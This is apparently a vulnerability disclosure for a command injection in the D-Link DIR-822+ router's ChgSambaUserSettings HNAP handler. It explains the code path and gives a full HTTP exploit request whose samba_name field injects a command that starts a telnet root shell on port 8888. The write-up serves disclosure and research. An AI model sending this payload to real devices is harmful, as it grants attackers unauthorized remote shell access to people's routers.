


## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `ChgSambaUserSettings` function of `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell


### Vulnerability details

Vulnerability occurs in `/HNAP1/ChgSambaUserSettings`. Attackers can control `v23` by setting the `samba_name`.



In line 81, attackers can control `v19` by setting the `samba_pwd`. Function `sub_41AD4C` was used to decrypt password `v19` with key `v5`, and get the plaintext `v18`. If successfully decrypted, the program will call system in line 87, otherwise go to line 93, and finally call system in 96. 



Anyway, system was called twice, and its parameter `v21` was passed by `v23`, which controlled by attackers.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `samba_name`. 

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 215
Accept: application/json
HNAP_AUTH: 5E736BA3725CFF7870DC7A1B6B9512E6 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/ChgSambaUserSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=akiKeInk; PrivateKey=880D5E30644E82353544D9496CA35B50; timeout=51
Connection: close

{"ChgSambaUserSettings":{"samba_name":"`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`", "samba": "foo", "samba_readonly": "false", "samba_dir": "/home", "samba_num": "8", "samba_pwd": "111111111111"}}
```


